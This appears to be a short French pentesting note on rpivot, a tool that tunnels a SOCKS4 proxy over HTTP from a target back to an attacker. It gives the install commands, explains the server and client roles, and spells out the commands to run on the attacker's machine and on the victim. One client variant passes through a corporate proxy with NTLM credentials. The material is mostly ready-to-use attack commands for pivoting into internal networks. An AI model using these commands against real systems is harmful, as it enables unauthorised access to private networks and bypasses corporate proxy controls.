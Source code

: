```yaml
---
public: true # set to true to make the article publishable
---
```

## Installation

```

sudo git clone https://github.com/klsecservices/rpivot.git
sudo apt-get install python2.7
```

## Fonctionnement

Cet outil s'appuie sur le protocole HTTP et peut même se connecter au proxy de l'entreprise en utilisant une authentification NTLM

2 composants :

- `server.py` à installer sur la machine de l'attaquant : il écoute localement sur 2 ports
	- 1 port sur lequel le `client.py` va se connecter
	- 1 port sur lequel il expose un service **socks4**
- `client.py` qui se connecte au `server.py` pour établir un tunnel HTTP.

### Lancement du serveur

```
# sur la machine de l'attaquant
python2.7 server.py --proxy-port 1080 --server-port 1234 --server-ip 0.0.0.0
```

### Lancement du client

```
# depuis la cible
# connexion simple
python2.7 client.py --server-ip 10.10.15.213 --server-port 1234

# connexion via le proxy de l'entreprise avec une authentification NTLM
python2.7 client.py --server-ip 10.10.15.213 --server-port 1234 --ntlm-proxy-ip <ProxyIP> --ntlm-proxy-port 3129 --domain DOMAIN --username user --password pass
```
